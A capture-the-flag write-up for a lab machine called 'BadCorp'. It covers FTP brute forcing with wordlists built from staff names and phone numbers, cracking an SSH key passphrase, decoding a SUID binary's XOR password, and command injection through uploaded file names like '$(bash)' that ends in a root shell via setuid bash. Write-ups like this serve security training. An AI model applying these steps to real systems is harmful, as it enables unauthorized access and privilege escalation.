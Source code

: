 # BadCorp

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.160.133
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 13:28 +08
Nmap scan report for 192.168.160.133
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

### Web Enumeration

The website was a corporate website:

<figure><img src="../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

First thing I noticed was the **phone numbers**. Normally machines, I see numbers like +12 345 678. This was the first box I saw that included unique phone numbers. I took a look at their team:

<figure><img src="../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

Again, phone numbers are unique here. This made me think about every little detail in the website, including the names of the users.&#x20;

There wasn't much more on the website, and we were just left with FTP and SSH.

### FTP Brute Force --> SSH Key

I took a look at this tweet regarding BadCorp:

{% embed url="https://twitter.com/offsectraining/status/1370149035059859459?lang=en" %}

To me, the 'insignificant information' was probably from the website. As such, I constructed wordlists based on the names of users and their phone numbers like this.

```
$ python2 username.py -n 'david williams' > user_word
$ cat pass_word                            
+23-34512435
2334512435
34512435
```

I then brute forced the FTP using `hydra` for each user and phone number, and eventually found one set of credentials that worked:

```
$ hydra -L user_word -P pass_word ftp://192.168.160.133
[21][ftp] host: 192.168.160.133   login: hoswald   password: 34566550
```

We can then login to FTP:

```
$ ftp 192.168.160.133                         
Connected to 192.168.160.133.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 6 of 50 allowed.
220-Local time is now 00:40. Server port: 21.
220-This is a private system - No anonymous login
220 You will be disconnected after 15 minutes of inactivity.
Name (192.168.160.133:kali): hoswald 
331 User hoswald OK. Password required
Password: 
230 OK. Current directory is /
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 PORT command successful
150 Connecting to port 50225
-rwxrwxr--    1 0          0                1766 Feb 24  2021 id_rsa
226-Options: -l 
226 1 matches total
```

This file was password encrypted:

```
$ cat id_rsa                   
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,689C848171117DE40F9DDDC1059582EC
```

We can crack this using `ssh2john.py` and `john`:

```
$ ssh2john id_rsa > ssh.john
$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
developer        (id_rsa)     
1g 0:00:00:00 DONE (2023-07-13 13:42) 25.00g/s 3754Kp/s 3754Kc/s 3754KC/s dewthedew..derbeder
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup SUID --> Reverse Engineering

I searched for SUID binaries within the machine and found one that stood out:

{% code overflow="wrap" %}
```
hoswald@badcorp:~$ find / -perm -u=s -type f  2>/dev/null
/usr/local/bin/backup
hoswald@badcorp:~$ file /usr/local/bin/backup
/usr/local/bin/backup: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=bef7543cc2b4b67931b5b549440ba5d76270edac, not stripped
hoswald@badcorp:~$ /usr/local/bin/backup
USAGE: backup <password> 
hoswald@badcorp:~$ /usr/local/bin/backup test
Wrong Password !!!
```
{% endcode %}

I didn't recognise this `backup` binary, so I downloaded it back to my machine and opened it up in `ghidra`.&#x20;

### Ghidra + Ltrace --> Command Injection

I first ran the binary with `ltrace`:

```
$ ltrace ./backup id
setuid(0)                                                = -1
strstr("id", "..")                                       = nil
strstr("id", "/")                                        = nil
strstr("id", "|")                                        = nil
strstr("id", "<")                                        = nil
strstr("id", ">")                                        = nil
strstr("id", "&")                                        = nil
strstr("id", " ")                                        = nil
strstr("id", "'")                                        = nil
strstr("id", "-")                                        = nil
strstr("id", "%")                                        = nil
strncpy(0x7fff99859cae, "id", 9)                         = 0x7fff99859cae
strcmp("eh\f\f\f\f\f\f", "|8\177\177{<~:")               = -23
puts("Wrong Password !!!"Wrong Password !!!
)                               = 19
+++ exited (status 0) +++
```

So it first makes us `root` and then checks for characters present. Afterwards, a basic `strcmp` is used to verify the password. The check for special characters seems to be a check for the bad characters:

```
$ ltrace ./backup '|8\177\177{<~:'
setuid(0)                                                = -1
strstr("|8\\177\\177{<~:", "..")                         = nil
strstr("|8\\177\\177{<~:", "/")                          = nil
strstr("|8\\177\\177{<~:", "|")                          = "|8\\177\\177{<~:"
puts("Bad character found !"Bad character found !
)                            = 22
strncpy(0x7ffe3e91560e, "|8\\177\\17", 9)                = 0x7ffe3e91560e
strcmp("p4P=;;P=7", "|8\177\177{<~:")                    = -12
puts("Wrong Password !!!"Wrong Password !!!
)                               = 19
+++ exited (status 0) +++
```

The bad characters don't include '$' and '()', opening up the possibility of command injection. Moving to `ghidra`, this binary prompts for a password before running the `check()` function to see if the password is correct, and then `copy()` if it is right:

<figure><img src="../../../.gitbook/assets/image (19) (10).png" alt=""><figcaption></figcaption></figure>

The `copy()` function takes an encrypted password and XOR's it with `0xc`:

<figure><img src="../../../.gitbook/assets/image (18) (3).png" alt=""><figcaption></figcaption></figure>

We can first grab the `pw` global variable from the binary:

<figure><img src="../../../.gitbook/assets/image (116) (1).png" alt=""><figcaption></figcaption></figure>

And then we can create a script in Python to decrypt this.&#x20;

```python
#!/usr/bin/python3
passwd = ''
cipher = bytes([0x3a, 0x7e, 0x3c, 0x7b, 0x7f, 0x7f, 0x38, 0x7c, 0x72])
b = bytes([0xc])
for x in reversed(cipher):
	ans = (x^0xc)
	passwd += chr(ans)

print (passwd)

$ python3 decrypt.py       
~p4ssw0r6
```

The first `~` character is not needed. We can then run the binary with the password:

```
hoswald@badcorp:~$ /usr/local/bin/backup p4ssw0r6
Create destination directory
FILE  id_rsa
ALL FILE COPYED IN /var/logs/hoswald/
```

We can move on to the `copy()` function now:

<figure><img src="../../../.gitbook/assets/image (101) (4).png" alt=""><figcaption></figcaption></figure>

All the binaries use their full path values, so no path hijacks here. However, this seems to use directories within `/var/logs` and `/home/FTP`. I was already thinking of command injection using subshells, and it seems that this is the exploit needed.&#x20;

We can use FTP to a few malicious files since we don't have write access over those directories:

```
ftp> put $(id)
local: $(id) remote: $(id)
229 Extended Passive mode OK (|||65519|)
150 Accepted data connection
     0        0.00 KiB/s 
226 File successfully transferred
```

This works!

<figure><img src="../../../.gitbook/assets/image (23) (11).png" alt=""><figcaption></figcaption></figure>

I then placed a file named `$(bash)` within the FTP directory, and it gave me a shell:

<figure><img src="../../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

This shell was pretty limited and couldn't give me any output. However, we can simply run `chmod u+s /bin/bash`. In another shell, we can then get a proper `root` shell easily:

<figure><img src="../../../.gitbook/assets/image (20) (4).png" alt=""><figcaption></figcaption></figure>
